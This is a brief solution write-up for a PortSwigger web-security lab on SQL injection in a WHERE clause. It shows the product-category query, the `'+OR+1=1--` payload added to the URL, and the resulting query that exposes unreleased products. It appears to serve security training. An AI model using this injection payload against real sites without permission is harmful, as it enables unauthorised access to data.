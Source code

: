 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/a27b5c93-30a8-48a3-af1e-451be7292444)

## Solution : 

Query made - 

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
```

To  display one or more unreleased products in Gifts i add `'+OR+1=1--` to the url Qurey. 

 Changed Query 

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1 --' AND released = 1`
```


![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/7316a072-52ca-4e54-9468-fcfe722b2eac)
